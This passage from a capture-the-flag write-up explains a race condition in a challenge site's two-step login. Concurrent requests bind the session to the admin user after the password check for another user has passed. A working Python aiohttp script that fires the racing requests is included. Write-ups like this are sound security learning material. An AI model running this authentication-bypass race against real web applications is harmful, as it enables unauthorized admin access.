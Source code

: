 Nice try though, but that is the right thinking! We're just gonna do that, _but fast_. We're aiming for a session table that would look have a `user_uid` of an admin, with a `TRUE` value in `logged_in`. We can do this by abusing two http requests to force our steps to be done in a malicious order since each request runs _concurrently_.

So we did:
```
req1: 1 -> 2
req2:          3 -> 4 -> 5 -> 6
req3:          1 -> 2
```

Our racing req3 will end up setting the `user_uid` of our session to whatever we wanted (at step 2). Then req2 will mark it as `logged_in` at step 5 after we've already passed the password check at step 3! To do this I played with the cool `aiohttp` module to do python3 async requests.

```python
import aiohttp
import asyncio
import time

# Set to your session cookie value
session_cookie = {"session": "8fc8c228-6409-4d1f-8677-d8155cd32f04"}
headers        = {'Content-Type': 'application/x-www-form-urlencoded'}

async def doLogin(session, url, username):
    resp = await session.post(url, data=b"username=" + str(username).encode(), headers=headers)
    resp.raise_for_status()
    print("Got response [{}] for URL: {}".format(resp.status, url))
    return resp.status

async def doPassword(session, url):
    resp = await session.post(url, data=b"password=poop", headers=headers)
    resp.raise_for_status()
    print("Got response [{}] for URL: {}".format(resp.status, url))
    return resp.status

async def main():
    # force aiohttp to send on different HTTP requests
    conn = aiohttp.TCPConnector(force_close=True)

    async with aiohttp.ClientSession(connector=conn, cookies=session_cookie) as session:
        login_post = doLogin(session, "http://triggered.pwni.ng:52856/login", "poop")

        # Wait for the stage1 to finish
        print("LOGIN1 = " + str(await login_post))

        # immediately fire requests
        login_post_race = asyncio.ensure_future(doLogin(session, "http://triggered.pwni.ng:52856/login", "admin"))
        password_post   = asyncio.ensure_future(doPassword(session, "http://triggered.pwni.ng:52856/login/password"))

        # wait for both requests to finish
        await password_post
        await login_post_race


loop = asyncio.get_event_loop()
loop.run_until_complete(main())
```
